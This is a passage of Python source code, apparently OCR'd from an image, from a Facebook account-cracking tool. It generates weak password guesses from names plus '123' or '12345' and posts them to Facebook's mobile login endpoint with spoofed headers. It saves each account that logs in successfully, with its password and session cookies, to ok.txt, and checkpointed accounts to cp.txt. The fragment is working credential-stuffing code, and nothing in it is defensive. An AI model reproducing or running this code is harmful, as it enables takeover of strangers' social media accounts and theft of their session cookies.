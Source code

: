 					pwx.append(xxz+"12345")
			else:
				if len(xxz)<3:
					pwx.append(zzz)
				else:
					pwx.append(zzz)
					pwx.append(xxz+"123")
					pwx.append(xxz+"12345")
			if "reguler" in mtd_dev:
				fall.submit(metode_reguler,uid,pwx)
			elif "validate" in mtd_dev:
				fall.submit(metode_validate,uid,pwx)
				
def metode_reguler(user,pwx):
	global loop, ok, cp
	sys.stdout.write(f"\r [*] [crack] {loop}/{len(id)}  ok : {len(ok)} - cp : {len(cp)}        "),
	sys.stdout.flush()
	try:
		for pw in pwx:
			pw = pw.lower()
			ses = requests.Session()
			url = ses.get("https://m.facebook.com/login/?next&ref=dbl&fl&refid=8")
			headers = {"Host":"m.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://m.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":ugent,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer'": "https://m.facebook.com/login/?next&ref=dbl&fl&refid=8","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}
			data = {"lsd":re.search('name="lsd" value="(.*?)"', str(url.text)).group(1),"jazoest": re.search('name="jazoest" value="(.*?)"', str(url.text)).group(1),"email":user,"pass": pw}
			post = ses.post("https://m.facebook.com/login/device-based/regular/login/?refsrc=deprecated&lwv=100&ref=dbl", data=data, headers=headers)
			if "c_user" in ses.cookies.get_dict():
				ok.append(user)
				coki = ";".join(i["name"]+"="+i["value"] for i in ses.cookies.get_dict())
				print(f"\r  {H}* --> {user}|{pw}|{coki}")
				open("ok.txt","a").write(f"  * --> {user}|{pw}|{coki}\n")
				break
			elif "checkpoint" in ses.cookies.get_dict():
				cp.append(user)
				print(f"\r  {K}* --> {user}|{pw}         ")
				open("cp.txt","a").write(f"  * --> {user}|{pw}\n")
				break
			else:
				continue
		loop +=1
	except Exception as e:
		time.sleep(32)

def metode_validate(user,pwx):
	global loop, ok, cp
	sys.stdout.write(f"\r [*] [crack] {loop}/{len(id)}  ok : {len(ok)} - cp : {len(cp)}        "),
	sys.stdout.flush()
	try:
		for pw in pwx:
			pw = pw.lower()
			ses = requests.Session()
			url = ses.get(f"https://m.facebook.com/login/device-based/password/?uid={user}&flow=login_no_pin")